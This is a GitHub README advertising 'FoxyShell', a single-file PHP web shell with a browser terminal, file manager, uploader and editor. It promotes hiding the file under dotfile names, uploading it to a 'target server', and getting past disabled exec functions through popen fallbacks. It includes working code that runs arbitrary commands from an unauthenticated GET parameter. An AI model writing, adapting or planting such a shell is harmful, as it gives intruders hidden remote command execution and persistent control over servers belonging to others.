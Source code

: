 # FoxyShell – PHP Web Shell

**FoxyShell** is a flexible, feature-packed **PHP web shell** that can be accessed through a simple interface, offers a pleasant UI, and supports several file operations and a built-in terminal. Even if some PHP functions like `exec` or `shell_exec` are disabled, FoxyShell can attempt to leverage other workarounds (like `popen`, etc.) to run commands – making it resilient in restricted environments.

![Preview](videos/demo.gif)
---

## Table of Contents

1. [Features](#features)  
2. [Installation](#installation)  
3. [Usage](#usage)  
4. [Security Recommendations](#security-recommendations)  
5. [FAQ](#faq)  
6. [Credits](#credits)

---

## Features

| Feature             | Description                                                                               |
|---------------------|-------------------------------------------------------------------------------------------|
| **Terminal**        | Run commands on the server (includes fallback if certain PHP functions are disabled).     |
| **File Manager**    | View and manage files with a dynamic sidebar.                                             |
| **Rename**          | Inline rename of files.                                                                    |
| **New File/Folder** | Quickly create files or folders on the server.                                            |
| **Upload**          | Upload files directly via the interface.                                                  |
| **Inline Editor**   | Edit file contents directly in the browser, then save changes to the server.              |
| **Breadcrumb**      | Clickable path segments to move between directories.                                      |
| **Stealth**         | Can be hidden (e.g., rename to .init.php), e.g. `foxyshell.php` → `.init.php`.            |

**Main Selling Points**

- **Works** even if some standard functions (```exec```, ```shell_exec```) are disabled, thanks to alternative methods.  
- **Attractive UI**: Tailwind CSS-based dark mode, icons, truncated filenames, etc.  
- **One-file solution**: just upload ```foxyshell.php``` to your target server, or hide it (e.g. ```.init.php```).  
- **REST-ish endpoints**: can be extended for automation.  
- **Potential** to add an “API KEY” check in ```foxyshell.php``` to secure access.

---

## Installation

1. **Upload** the single file ```foxyshell.php``` to your server.  
2. (Optional) **Hide** it by renaming to a dotfile such as ```.log.php``` or something less conspicuous.  
3. Ensure **permissions** are correct so the script can read/write files on the server.

---

## Usage

1. **Open** the script in your browser, e.g. ```https://example.com/foxyshell.php```.  
2. If you’ve **secured** it with an API key or HTTP Auth, provide those credentials.  
3. Once loaded, you’ll see:
   - **Sidebar** with Refresh, Upload, New File/Folder, and the file list.  
   - **Breadcrumb** to navigate directories.  
   - **Editor** to load and modify a file.  
   - **Terminal** to run commands (like ```ls -1```, ```cd /admin```, etc.).  
4. **Terminal** usage example:

   ```bash
   $ ls
   admin/
   index.php
   ...
   ```

5. **File creation** or **rename** operations are inline: you’ll see an input plus check and X icons to confirm or cancel.

**Example** minimal code snippet (in ```foxyshell.php```), (replace ``` with actual backticks in real usage):
```php
<?php
// Minimal example snippet
// Insert fallback logic for popen / shell_exec, etc.

if (!empty($_GET['cmd'])) {
    $cmd = $_GET['cmd'];
    // Use fallback 'popen' if 'exec' is disabled
    $descriptors = @popen($cmd . ' 2>&1', 'r');
    if ($descriptors) {
        while(!feof($descriptors)) {
            echo fgets($descriptors);
        }
        pclose($descriptors);
    } else {
        echo "Failed to run command\n";
    }
    exit;
}

// ... add your UI logic, forms, etc. ...
```

---

## Security Recommendations

- **Restrict Access**: Put this behind **HTTP Basic Auth** or an IP whitelist.  
- **Use HTTPS**: If possible, always run over HTTPS to avoid exposing commands in plaintext.  
- **Rename** to something less obvious (e.g., ```.init.php``` or ```upload-handler.php```).  
- **Log** suspicious IP addresses or set honeypot triggers if you want advanced security.

---

## FAQ

**Q**: What if ```exec``` and ```shell_exec``` are disabled in ```php.ini```?  
**A**: FoxyShell tries alternate methods like ```popen```. If everything is disabled, certain commands might fail – but the file manager, upload, rename, etc., would still work.

**Q**: How do I create folders that start with a dot?  
**A**: In the “New Folder” prompt, type ```.secret``` – the shell calls ```mkdir .secret```.

**Q**: Does the shell require a database?  
**A**: No. It’s a single ```.php``` file – no database or external dependencies needed.

---

## Credits

For further questions, please contact [rubahilang@gmail.com](mailto:rubahilang@gmail.com).
#
Made with ❤️ by **RubahIlang**  
